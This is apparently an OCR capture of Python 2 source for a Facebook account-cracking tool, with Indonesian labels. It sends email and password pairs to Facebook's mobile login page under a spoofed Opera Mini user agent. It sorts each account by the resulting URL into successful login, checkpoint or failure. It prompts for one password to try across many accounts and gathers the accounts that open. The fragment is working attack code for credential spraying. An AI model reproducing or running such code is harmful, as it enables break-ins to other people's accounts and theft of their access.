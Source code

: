 	def update(self):

		return self.a,self.id

	def run(self):

		try:

			data = urllib2.urlopen(urllib2.Request(url='https://m.facebook.com/login.php',data=urllib.urlencode({'email':self.id,'pass':self.p}),headers={'User-Agent':'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16'}))

		except KeyboardInterrupt:

			sys.exit()

		except:

			self.a = 4

			sys.exit()

		if 'm_sess' in data.url or 'save-device' in data.url:

			self.a = 1

		elif 'checkpoint' in data.url:

			self.a = 2

		else:

			self.a = 3

def crack(d):

	while 1:

		s = inputD('[?] Sandi')

		if len(s) < 6:

			cetak('!m[!] Jumlah huruf minimal !k6')

		else:

			break

	return crack0(d,s)

def tampilhasil(akun,sandi,data):

	cekpoint = []

	salah = 0

	berhasil = []

	for i in akun:

		st,id = i

		if st == 1:

			berhasil.append(id)
